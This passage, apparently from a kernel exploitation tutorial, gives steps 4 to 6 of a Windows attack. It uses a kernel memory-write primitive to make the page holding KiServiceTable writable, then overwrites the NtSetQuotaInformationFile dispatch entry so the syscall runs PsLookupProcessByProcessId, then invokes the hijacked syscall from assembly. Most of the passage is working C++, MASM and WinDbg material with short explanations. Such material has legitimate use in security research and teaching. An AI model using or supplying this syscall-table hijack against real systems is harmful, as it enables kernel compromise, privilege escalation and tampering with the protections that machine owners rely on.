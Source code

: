 #### 4. **Get PDE for KiServiceTable and Flip R/W Bit**

```cpp
DWORD64 ntKiServiceTable_pde_flags;
// Flip R/W bit (bit 1)
New_ntKiServiceTable_pde_flags = ntKiServiceTable_pde_flags ^ (1 << 1);
WriteMemoryDWORD64(ntKiServiceTable_pde, New_ntKiServiceTable_pde_flags);
```

You're enabling write access to the memory page that contains the `KiServiceTable`, which is normally read-only.

#### 5. **Hijack the Syscall**

```cpp
		DWORD64	NtSetQuotaInformationFile = (DWORD64)nt_KiServiceTable + NtSetQuotaInformationFile_syscallnumber * 0x04;
	// PsLookupProcessByProcessId Kernel Address
	DWORD64 PsLookupProcessByProcessId = (DWORD64)nt_base + PsLookupProcessByProcessId_Offset_fromNT;
  // Calculate the offset to jump to PsLookupProcessByProcessId
	DWORD offset = (DWORD)(PsLookupProcessByProcessId - nt_KiServiceTable);
	DWORD shifted = offset << 4;
	// Overwrite the NtSetQuotaInformationFile syscall offset in the Dispatch table with the new one
	b = this->objMemHandler->WriteMemoryPrimitive(0x04, NtSetQuotaInformationFile, shifted);
```

You overwrite the `NtSetQuotaInformationFile` syscall pointer to jump to `PsLookupProcessByProcessId`.

You can get `PsLookupProcessByProcessId_Offset_fromNT` from windbg local kernel session.

```
2: kd> ? nt!PsLookupProcessByProcessId - nt
Evaluate expression: 9465504 = 00000000`00906ea0
```

#### 6. **Call the Hijacked Syscall using asm**

```cpp
NTSTATUS status = HijackedSyscall((HANDLE)pid, (DWORD64)PEProcess);
```

```masm
HijackedSyscall PROC
	mov r10, rcx
	int 3;
	mov eax, syscallNumber ; syscall number for NtAllocateVirtualMemory
	syscall
	ret
HijackedSyscall ENDP
```

You call the syscall, which now executes `PsLookupProcessByProcessId` in kernel context, passing a PID and an allocated memory buffer to receive the EPROCESS pointer.
